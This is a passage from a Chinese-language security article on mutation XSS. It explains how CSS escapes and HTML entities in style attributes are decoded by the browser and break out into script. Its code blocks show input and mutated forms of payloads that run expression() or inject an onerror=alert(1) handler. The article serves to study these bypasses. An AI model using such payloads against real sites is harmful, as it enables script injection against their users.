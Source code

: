 可以看到，突变后的形式中，原输入的 font-family 的属性值中的所有转义形式均被解码回它原有的形式。其中\27 被解码为单引号，提前闭合掉了 FONT-FAMILY 属性，接着插入了我们自定义的 x 属性，利用 expression 来执行 Javascript 代码。如果结合我们先前已经有所了解的 CSS 中的一些 XSS 技巧，将会让情况看起来变得更加糟糕。例如以下代码，看起来，我们可以把 expression 变得乱七八糟。

```
输入形式：

<p style="font-family:'ar&#x5c;27 \3bx\3a ex\5cpre\2f**\2fssion\28 xss\28 1\29\29\3bial';"></p>

突变形式：

<P style="FONT-FAMILY: 'ar';x:ex\pre/**/ssion(xss(1));ial'"></P>

```

## 0x05 CSS 中双引号实体或转义导致的 mXSS

* * *

接着上一部分，依然是 CSS 中所存在的问题，既然反斜线转义会被解码为它原本的形式，那么会出现下面这样一种情况。

```
输入形式：

<p style="font-family:'aaaa\22\3e\3cimg onerror ….';"></p>

预期的突变形式：

<p style="font-family:'aaaa"><img onerror ….';"></p>  

```

这样一来，不就可以插入任意标签了么？想法很好。但实际上如何呢？

```
实际的突变形式：

<P style="FONT-FAMILY: 'aaaa'><img onerror ….'"></P>

```

并非我们想象的那样，而是我们的\22 竟然变成了单引号，按照原文作者的说法，我们只能对这种奇怪的结果所产生的原因做出推测：\22 先被解码为 "，但考虑到双引号会闭合掉 style 属性，所以浏览器渲染引擎将"进一步转变为了'，以避免这种情况的发生。当然，这也意味这，除了 \22，\0022 之外，HTML 实体如：`&quot; &#x22; &#34;` 等双引号的表示形式均可导致这类问题。

## 0x06 CSS 属性名中的转义所导致的 mXSS

* * *

前 2 部分都讲到的 CSS 属性值中的情况，如果 CSS 属性名中出现了反斜线转义，又会如何？见下面代码。

```
输入形式：

<img src=1 style="font-fam\22onerror\3d alert\28 1\29\20 ily:'aaa';">

突变形式：

<IMG style="font-fam"onerror=alert(1) ily: ''" src="1"> 

```

